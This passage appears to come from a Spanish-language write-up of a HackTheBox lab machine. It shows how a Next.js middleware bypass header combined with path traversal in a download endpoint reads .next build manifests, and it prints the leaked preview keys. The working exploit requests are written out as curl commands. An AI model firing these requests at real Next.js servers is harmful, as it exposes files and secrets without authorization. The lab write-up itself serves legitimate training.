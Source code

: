 Vemos que es un `hash` en `MD5`, pero no podremos hacer de momento con el nada mas interesante, con ayuda de la `IA` si le pedimos que nos diga una estructura de archivos comunes de `.next` veremos que nos funcionan estos archivos:

```
.next/
├── build-manifest.json                 ✅ FUNCIONA
├── prerender-manifest.json            ✅ FUNCIONA
├── routes-manifest.json               ✅ FUNCIONA
├── static/
│   └── -ipsiOtEey-zESpHzrwmc/
│       ├── _buildManifest.js          ✅ FUNCIONA
│       └── _ssgManifest.js            ✅ FUNCIONA
├── server/
│   ├── pages-manifest.json            ✅ FUNCIONA
│   ├── middleware-manifest.json       ✅ FUNCIONA
│   ├── pages/
│   │   ├── _app.js                    ✅ FUNCIONA
│   │   ├── _error.js                  ✅ FUNCIONA  
│   │   ├── api/
│   │   │   ├── auth/
│   │   │   │   └── [...nextauth].js   ✅ FUNCIONA
│   │   │   └── download.js            ✅ FUNCIONA
│   │   ├── index.html                 ✅ (pero es HTML estático)
│   │   ├── signin.html                ✅ (pero es HTML estático)
│   │   └── docs/
│   │       ├── [section].html         ✅ (pero es HTML estático)
│   │       └── *.html                 ✅ (otros HTML estáticos)
```

Si las probamos la mas importante que podemos ver es esta:

```shell
curl -H "X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware" "http://previous.htb/api/download?example=../../.next/prerender-manifest.json"
```

Info:

```
{
  "version": 4,
  "routes": {},
  "dynamicRoutes": {},
  "preview": {
    "previewModeId": "491840debc08d71affc165ef8084f2c8",
    "previewModeSigningKey": "6688caac8986183042394d23aa9565fb674a38a3613d45b2fbabe6542f28c87f",
    "previewModeEncryptionKey": "ea19262bf8a3caf7618bd617a1352695609534438b49ae035b2ee0b84024490c"
  },
  "notFoundRoutes": []
}
```

```shell
curl -H "X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware" "http://previous.htb/api/download?example=../../.next/server/pages-manifest.json"
```
